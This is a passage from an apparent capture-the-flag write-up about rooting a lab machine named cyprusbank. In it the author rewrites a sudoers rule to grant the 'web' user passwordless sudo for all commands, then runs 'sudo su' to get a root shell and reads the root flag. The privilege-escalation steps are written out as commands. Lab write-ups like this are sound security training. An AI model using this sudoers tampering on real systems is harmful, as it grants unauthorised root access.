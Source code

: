 Now, we modify the `sudoers` file to **escalate privileges**.

```shell
## sudoers file.
root ALL=(ALL:ALL) ALL

## Uncomment to allow members of group wheel to execute any command
# %wheel ALL=(ALL:ALL) ALL

## Same thing without a password
# %wheel ALL=(ALL:ALL) NOPASSWD: ALL

## Uncomment to allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL
web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
## Uncomment to allow any user to run sudo if they know the password
## of the user they are running the command as (root by default).
# Defaults targetpw  # Ask for the password of the target user
# ALL ALL=(ALL:ALL) ALL  # WARNING: only use this together with 'Defaults targetpw'

## Read drop-in files from /etc/sudoers.d
@includedir /etc/sudoers.d
```
**Locate** the existing rule:
```markdown
web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
**Replace** it with:
```markdown
web ALL=(root) NOPASSWD: ALL
```
With a simple `sudo su`, we successfully **escalated** to the **root** user without needing a **password**.
```shell
web@cyprusbank:~$ sudo su
root@cyprusbank:/home/web# whoami
root
root@cyprusbank:/home/web# id
uid=0(root) gid=0(root) groups=0(root)
root@cyprusbank:/home/web#
```
We can now proceed to **answer** last **question**.

---

#### flags
`3.` What is the `root.txt` flag?
```shell
root@cyprusbank:/home/web# cd /root/
root@cyprusbank:~# ls -la
total 40
drwx------  6 root root 4096 Apr  4  2024 .
drwxr-xr-x 23 root root 4096 Jul 12  2023 ..
drwxr-xr-x  3 root root 4096 Jul 16  2023 .local
drwxr-xr-x  5 root root 4096 Apr  4  2024 .pm2
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   21 Jul 15  2023 root.txt
root@cyprusbank:~# cat root.txt
```
**Answering** the **final** **question**,